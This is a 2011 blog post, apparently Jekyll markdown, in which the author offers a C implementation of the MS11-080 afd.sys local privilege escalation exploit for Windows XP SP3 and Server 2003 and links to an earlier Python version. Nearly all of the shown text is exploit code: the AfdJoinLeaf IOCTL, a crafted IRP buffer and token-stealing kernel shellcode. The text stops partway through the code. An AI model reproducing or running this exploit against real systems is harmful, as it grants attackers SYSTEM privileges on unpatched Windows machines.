```yaml
---
layout: post
title: "MS11-080 Afd.sys Privilege Escalation Exploit Impl in C"
date: 2011-12-21 23:40
author: akdeniz
comments: true
categories: [Exploit]
tags: [afd.sys, exploit, ms11-80]
---
```

{% include JB/setup %}

I am really curious about why this exploit is published in python? Anyway here is my implementation in C. I tested it on WinXP SP3 English, but it should also work on WIN 2K3 SP2 Standard/Enterprise English as original version does.

You can get original python script from <a title="here" href="http://www.exploit-db.com/exploits/18176/" target="_blank">here</a>

{% highlight cpp %}
#pragma comment(lib,"psapi.lib")
#pragma comment(lib,"ws2_32.lib")

#include <winsock2.h>
#include <ws2tcpip.h>
#include <stdio.h>
#include <Psapi.h>
#include <Windows.h>

#define DRIVERCOUNT 1024
#define DRIVERNAMESIZE 256
#define MEMRES (0x1000 | 0x2000)
#define PAGEEXE 0x00000040

// AFDJoinLeaf
#define IOCTL  0x000120bb  

#define IRPSTUFF_SIZE 256
#define TOKENSTEALING_SIZE 70
#define RESTORETOKEN_SIZE 28
#define RESTOREPTRS_SIZE 22
#define PADDING_SIZE 2
#define SHELLCODE_SIZE (PADDING_SIZE+RESTOREPTRS_SIZE+TOKENSTEALING_SIZE)

// This will trigger the path to AfdRestartJoin
CHAR* irpstuff   = "\x41\x41\x41\x41\x42\x42\x42\x42\x00\x00\x00\x00\x44\x44" \
	"\x44\x44\x01\x00\x00\x00\xE8\x00\x34\xF0\x00\x45\x45\x45\x45\x45\x45" \
	"\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45" \
	"\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45" \
	"\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45" \
	"\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45" \
	"\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45" \
	"\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45" \
	"\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45" \
	"\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45" \
	"\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45" \
	"\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45" \
	"\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45" \
	"\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45" \
	"\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45\x45" \
	"\x45\x45\x45\x45";
//70 byte
CHAR* tokenstealing_xp =  "\x52\x53\x33\xc0\x64\x8b\x80\x24\x01\x00\x00\x8b\x40\x44\x8b\xc8" \
	"\x8b\x98\xc8\x00\x00\x00\x89\x1d\x00\x09\x02\x00\x8b\x80\x88\x00\x00\x00\x81\xe8\x88\x00" \
	"\x00\x00\x81\xb8\x84\x00\x00\x00\x04\x00\x00\x00\x75\xe8\x8b\x90\xc8\x00\x00\x00\x8b\xc1" \
	"\x89\x90\xc8\x00\x00\x00\x5b\x5a\xc2\x10";